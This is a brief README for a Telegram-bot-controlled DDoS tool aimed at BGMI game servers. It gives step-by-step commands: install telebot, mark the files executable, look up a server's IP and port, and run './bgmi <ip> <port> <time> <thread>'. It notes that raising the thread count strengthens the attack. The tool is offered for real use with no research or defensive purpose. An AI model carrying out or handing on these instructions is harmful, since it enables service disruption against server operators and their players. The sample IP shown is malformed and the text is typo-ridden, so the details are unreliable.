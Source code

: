 # DDOS-attack-
DDOS Attack with telegram bot
open that file in gihub codespace
then give your telegram bot id & your user id i mean edit in that script

To Run that -->
1. at first in terminal write pip install telebot(In vs code install python extensions)
2. then after installing that clear that
3. then in terminal write cd bot
4. then write chmod +x *
5. then in bgmi find the ip & port then
6. in terminal ./bgmi <ip> <port> <time> <thread> then hit enter
7. Ex :- ./bgmi 2.448.48.54 18363 280 280    (Remember that 280 mewans in second & if you increase the thread them it will increase ddos power)
8. after executing that command your ddos attack will start
